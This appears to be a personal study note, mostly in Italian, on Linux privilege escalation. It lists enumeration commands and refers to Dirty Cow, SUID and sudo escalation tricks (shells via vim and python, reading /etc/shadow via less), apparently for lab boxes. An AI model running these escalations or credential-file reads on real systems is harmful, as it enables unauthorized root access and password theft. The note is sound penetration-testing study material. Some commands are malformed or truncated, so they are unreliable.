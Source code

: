 # linpeas.sh

>[!important]- LinPEAS
>Linux Privilege Escalatopm Awesome Script

# Kernel Exploits: Enumerate Distribution
```sh
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release #Debian-based
cat /etc/redhat-release #Redhat-based
```
![[Pasted image 20240520143425.png|center|500]]
## Kernel Esploits: Enumerate Kernel
```sh
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinux-
```
![[Pasted image 20240520144413.png|center|600]]
## Kernel Exploits
Gli exploit del kernel sono programmi che sfruttano le vulnerabilità del kernel per eseguire codice arbitrario con autorizzazioni elevate.
In molti casi, passare al root su un sistema Linux è semplice come scaricare un exploit del kernel nel file system di destinazione, compilare l'exploit e quindi eseguirlo.
Il modo più semplice per difendersi dagli exploit del kernel è mantenere il kernel patchato e aggiornato.
### Esempio: Dirty Cow

![[Pasted image 20240520144627.png|center|600]]
`$ whoami` - ci dice che l'utente corrente è john (utente non root)
`$ uname -a` - ci fornisce la versione del kernel che sappiamo essere vulnerabile a dirtycow
- scaricato l'exploit DirtyCow da qui - https://www.exploit-db.com/exploits/40839/
- compilato ed eseguito. Sostituisce l'utente "root" con un nuovo utente "rash" modificando il file /etc/passwd.
`$ su rash` - Cambia l'utente correntemente connesso in "rash" che è root.
## Search for exploits
![[Pasted image 20240521143322.png|center|550]]
### Non usare come prima scelta
Tuttavia, è molto allettante eseguire semplicemente un exploit e ottenere l'accesso come root, ma dovresti sempre mantenerlo come ultima opzione.
1. L'host remoto potrebbe bloccarsi poiché molti degli exploit root disponibili pubblicamente non sono molto stabili.
2. Potresti ottenere il root e quindi mandare in crash il box.
3. L'exploit potrebbe lasciare tracce/registri che potrebbero farti catturare.
Dovresti sempre provare le altre tecniche per ottenere il root di cui abbiamo discusso di seguito prima di passare direttamente all'esecuzione di un exploit di root locale.
## Servizi eseguiti come root: privilegi dei servizi
```sh
ps aux
ps -ef
top
cat /etc/services
ps aux | grep root
ps -ef | grep root
```

![[Pasted image 20240521143534.png|center|600]]

### Servizi di root: Applicazioni installate
```sh
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/<package manager>/archives
```

![[Pasted image 20240521143842.png|center|600]]
#### Misconfigurazioni
```sh
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk "$1 ~ /^.*r.*/
```
### Esempio: MySQL UDF
## Binari Suid
`find / -perm -4000 2>/dev/null`
![[Pasted image 20240521144157.png|center|600]]
### Esempio
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./strings /etc/shadow
```
#### Comandi Sudo
`sudo -l`
User demo may run the following commands on crashlab:
`(root) NOPASSWD: /usr/bin/vim`
`sudo vim -c '!sh'`
User waldo may run the following commands on admirer:
`(ALL) SETENV: /opt/scripts/admin_tasks.sh`
`sudo PYTHONPATH=/dev/shm/opt/scripts/admin_tasks.sh`
User `hacker10` may run the following commands on admirer:
`hacker10 ALL= (root) /bin/less /var/log/*`
` sudo less /var/log/../../etc/shadow #Read shadow`
` sudo less /var/log/something /etc/shadow #Read 2 files`
## Cronjobs

